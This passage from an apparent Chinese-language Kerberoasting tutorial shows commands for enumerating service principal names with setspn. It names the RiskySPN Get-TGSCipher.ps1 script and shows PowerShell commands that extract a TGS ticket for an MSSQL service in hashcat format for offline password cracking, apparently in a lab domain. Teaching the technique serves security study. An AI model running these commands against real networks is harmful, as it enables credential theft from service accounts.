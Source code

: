 也可以使用`setspn -T ignite -Q */*`来发现

[![](assets/1708919803-6b7151dfcdcc96d05dfe3d8dd4c5b366.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142048-db559f5a-ce25-1.png)

#### 提取并转储 TGS\_ticket 并获取哈希值

我们使用 `TGSipher.ps1` 来提取 `KRB_TGS`，下载地址如下

```bash
https://github.com/cyberark/RiskySPN/blob/master/Get-TGSCipher.ps1
```

获取 `TGS` 并将结果转换为 `hashcat` 格式

```bash
Import-Module .\Get-TGSCipher.ps1
Get-TGSCipher -SPN "MSSQLSvc/win7.rootkit.org:1433" -Format hashcat
```
